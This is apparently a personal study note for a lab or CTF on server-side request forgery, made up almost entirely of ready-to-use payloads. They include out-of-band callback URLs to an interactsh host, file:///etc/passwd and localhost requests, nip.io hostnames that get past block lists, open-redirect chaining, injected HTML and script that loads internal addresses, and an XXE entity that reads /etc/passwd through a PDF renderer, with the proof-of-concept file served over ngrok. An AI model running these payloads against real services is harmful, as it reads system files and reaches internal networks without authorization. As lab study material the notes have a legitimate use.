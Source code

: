 ___

![[Pasted image 20241214123720.png]]

https://app.interactsh.com/#/

## Screenshot Context and PDF Context

```
http://puuatcmlkisigmqtcmzzjtswfv8t67vdw.oast.fun
```

```
http://127.0.0.1
```

```
file:///etc/passwd
```

## Blacklisted Resources

```
http://127.1
```

https://nip.io/

`<anything>[.-]<IP Address>.nip.io` in **"dot"**, **"dash"** or **"hexadecimal"** notation to the corresponding `<IP Address>`:

- dot notation: `magic.127.0.0.1.nip.io`
- dash notation: `magic-127-0-0-1.nip.io`
- hexadecimal notation: `magic-7f000001.nip.io`

## Whitelisting and Bypasses

```
http://hackinghub.io.127.0.0.1.nip.io
```

## Chaining Open Redirects

```
https://charcoal.ctfio.com/?redirect=http://localhost:8080
```

## In an Image Context

Scan internal ports, 
Time based
```
http://127.0.0.1:8080/favicon.ico
```

## Chaining HTML Injection

```
<img/src="https://puuatcmlkisigmqtcmzzjtswfv8t67vdw.oast.fun">
```

```
<iframe/src="http://localhost:8080">
```

## Chaining XSS

```
<script>document.write(document.location)</script> 
```

```
<script>window.location = "http://localhost"; </script>
```

```
<script>window.location = "file:///etc/passwd"; </script>
```

instead of calling it directly,

```
<iframe/src=https://mywebsite.com/locationwhere.html>
```

## Chaining XML External Entity (XXE)

```
<img/src="https://puuatcmlkisigmqtcmzzjtswfv8t67vdw.oast.fun">
```

Get the user-agent --> # Prince v10
```xml
<?xml version="1.0"?>
<!DOCTYPE cdl [<!ENTITY asd SYSTEM "file:///etc/passwd">]>
<cdl>&asd;</cdl>
```

```
python3 -m http.server 8080
ngrok http http://localhost:8080
```

```
<iframe/src="https://fbcf-83-213-97-233.ngrok-free.app/prince-poc.xml">
```

## Blind SSRF

